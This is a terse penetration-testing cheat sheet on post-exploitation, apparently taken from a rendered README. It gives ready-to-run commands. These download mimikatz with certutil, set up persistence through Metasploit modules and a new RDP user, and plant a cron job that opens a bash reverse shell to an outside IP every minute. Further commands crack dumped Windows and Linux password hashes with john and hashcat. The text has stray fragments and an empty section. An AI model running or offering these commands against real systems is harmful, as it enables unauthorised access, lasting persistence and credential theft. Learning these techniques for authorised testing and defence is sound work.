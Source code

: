 ```certutil -urlcache -f http://URL/mimikatz.exe mimikatz.exe```
export PATH=/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin

-- -

## Windows Persistence

We require elevated privilege for persistence.

windows/local/persistence_service : Persistence using obscured service 
post/windows/manage/enable_rdp : Persistence via RDP

To add user in windows and run as RDP:
Command in meterpreter : ```run getgui e -u new_username -p password```

Use xfreerdp to login : ```xfreerdp /u:username /p:password /v:ip```

## Linux Persistence

Create ssh key to user and copy private key to system.

If SSH is enabled and running on a Linux system you have compromised, you can take advantage of the SSH configuration to establish persistent access on the target system.

Adding persistence via cronjob : https://attack.mitre.org/techniques/T1053/

Run following commands on system to setup cronjob:
```
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.178.177.2/1234 0>&1'" > cron

crontab -i cron

crontab -l
```

-- -

## Dumping and Cracking hashes

### Windows
hashdump using meterpreter session

```
john --format=NT hash.txt
john --format=NT --wordlist=/usr/share/wordlist/rockyou.txt hash.txt
hashcat -a3 -m 1000 --wordlist /usr/share/wordlist/rockyou.txt hash.txt
```
## Linux

```
john --format=sha512 --wordlist=/usr/share/wordlist/rockyou.txt hash.txt
hashcat -a3 -m 1800 --wordlist /usr/share/wordlist/rockyou.txt hash.txt
```

-- -

## Pivot

-- -

## Windows PrviescCheck

PrivescCheck - This script aims to enumerate common Windows 
configuration issues that can be leveraged for local privilege escalation. It 
also gathers various information that might be useful for exploitation 
and/or post-exploitation.
```